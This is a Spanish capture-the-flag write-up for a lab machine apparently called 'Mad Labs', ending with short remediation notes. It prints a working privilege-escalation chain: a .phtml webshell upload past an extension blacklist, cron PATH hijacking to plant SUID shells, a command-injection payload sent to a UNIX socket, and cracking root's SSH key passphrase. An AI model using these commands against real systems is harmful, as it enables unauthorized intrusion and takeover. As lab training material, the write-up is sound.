

De una subida de ficheros mal filtrada a root, pasando por un cron secuestrable, un socket con inyección de comandos y una clave SSH robada. Una autopsia de reanimación en cuatro descargas de voltaje.

Dos puertos abiertos. SSH está muy actualizado, así que la superficie real es la web app de Apache/PHP — un "panel médico" con temática Frankenstein y un formulario de subida de .raw.
# escaneo completo de puertos + versiones $ nmap -sV -sC -p- --min-rate 2000 192.168.1.34 22/tcp open ssh OpenSSH 10.2p1 Ubuntu 80/tcp open http Apache httpd 2.4.66 ((Ubuntu)) |_http-title: Mad Labs | Medical Dashboard
La enumeración revela /uploads navegable y upload.php. El filtro .raw es solo JavaScript — el backend es quien decide de verdad.
El backend usa una lista negra de extensiones — pero olvida .phtml y .pht, que Apache ejecuta como PHP.
# $blacklist = php,php3,php4,php5,php7,phps,phar,inc → falta phtml $ curl -F "medical_scan=@cmd.phtml;filename=cmd.phtml" http://192.168.1.34/upload.php [SUCCESS] Core tissue scan loaded into matrix: cmd.phtml $ curl "http://192.168.1.34/uploads/cmd.phtml?c=id" uid=33(www-data) gid=33(www-data) groups=33(www-data)
Webshell como ●www-data. Primer pie dentro de la matriz.
La enumeración dibuja una cadena de confianza entre tres cuentas del laboratorio. Cada nodo se enciende con una técnica distinta.
Subida .phtml → ejecución de comandos. Punto de entrada.
reanimator_core corre cada minuto como igor y llama a awk/cut/date sin ruta absoluta.
Un socket UNIX construye un comando shell con entrada del cliente sin validar.
Clave privada de root en el home de frankenstein; passphrase crackeada.
/opt/laboratory/reanimator_core (world-readable) corre cada minuto como igor y resuelve date, awk y cut por el $PATH — que incluye un directorio escribible. Plantamos binarios con esos nombres.
# awk/cut/date maliciosos → crean una bash SUID cuando el cron (igor) los ejecuta $ for dir in /dev/shm /var/crash /var/www/html/uploads ...; do > for b in date awk cut; do echo "$PAYLOAD" > "$dir/$b"; chmod 755 "$dir/$b"; done > done # ...un ciclo de cron después... $ /var/crash/.ib -p -c 'id' uid=33(www-data) euid=1001(igor) egid=1001(igor) # ⚡ igor
/tmp cae en un namespace privado invisible. Hay que verificar en /dev/shm o /var/crash. Y la bash SUID no puede ir en /dev/shm ni /tmp — están montados nosuid — así que se coloca en /var/crash (ext4).El .bash_history de igor filtra el siguiente paso: el socket /run/madlabs/reanimate.sock y el "ID mágico" 1818.
Con el grupo madmanagers, igor lee el servicio. Interpola el ID del cliente directo en os.popen — inyección de comandos clásica.
if data.startswith("STATUS:"): _, monster_id = data.split(":", 1) cmd = f"cat /opt/laboratory/monsters/{monster_id}.status" # ⬅ inyección os.popen(cmd)
$ printf 'STATUS:z;cp /bin/bash /var/crash/.fb;chmod 6777 /var/crash/.fb #\n' \ | socat - UNIX-CONNECT:/run/madlabs/reanimate.sock $ /var/crash/.fb -p -c 'id; cat /home/frankenstein/user.txt' uid=33(www-data) euid=1000(frankenstein) egid=1001(igor) HMV{tr1ck_0r_tr34t_g1v3_m3_r00t...} # 🏴 USER FLAG
El home de frankenstein esconde id_rsa_root: la clave privada de root, cifrada. ssh2john + rockyou la abren.
$ ssh2john id_rsa_root > rsa.hash $ john --wordlist=rockyou.txt rsa.hash id_rsa_root:halloween # 🔑 passphrase $ ssh -i id_rsa_root root@192.168.1.34 # id && cat /root/root.txt uid=0(root) gid=0(root) groups=0(root) HMV{n0t_4_gh0st_j1st_4_r00t...} # 👑 ROOT
/uploads sin motor PHP y sin listado de directorios./usr/bin/awk) y un PATH fijo que nunca incluya directorios escribibles por servicios web.subprocess.run([...], shell=False) y validar monster_id contra una allowlist.